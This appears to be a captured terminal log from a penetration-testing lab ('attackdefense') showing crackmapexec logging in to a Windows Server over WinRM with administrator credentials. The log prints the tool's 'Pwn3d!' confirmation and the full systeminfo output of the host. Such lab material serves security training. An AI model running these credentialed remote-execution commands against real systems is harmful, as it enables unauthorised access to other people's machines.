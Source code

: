 ```
root@attackdefense:~# crackmapexec winrm 10.3.27.236 -u administrator -p tinkerbell -x "systeminfo"
WINRM       10.3.27.236     5985   NONE             [*] http://10.3.27.236:5985/wsman
WINRM       10.3.27.236     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
WINRM       10.3.27.236     5985   NONE             [+] Executed command
WINRM       10.3.27.236     5985   NONE             
Host Name:                 SERVER
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          EC2
Registered Organization:   Amazon.com
Product ID:                00430-00000-00000-AA975
Original Install Date:     10/1/2020, 2:03:19 PM
System Boot Time:          9/17/2022, 12:42:08 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Coordinated Universal Time
Total Physical Memory:     4,096 MB
Available Physical Memory: 3,188 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 4,731 MB
Virtual Memory: In Use:    773 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\SERVER
Hotfix(s):                 20 Hotfix(s) Installed.
                           [01]: KB4570720
                           [02]: KB4470502
                           [03]: KB4470788
                           [04]: KB4480056
                           [05]: KB4493510
                           [06]: KB4494174
                           [07]: KB4499728
                           [08]: KB4504369
                           [09]: KB4512577
                           [10]: KB4512937
                           [11]: KB4521862
                           [12]: KB4523204
                           [13]: KB4539571
                           [14]: KB4549947
                           [15]: KB4558997
                           [16]: KB4561600
                           [17]: KB4562562
                           [18]: KB4566424
                           [19]: KB4570332
                           [20]: KB4570333
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.3.16.1
                                 IP address(es)
```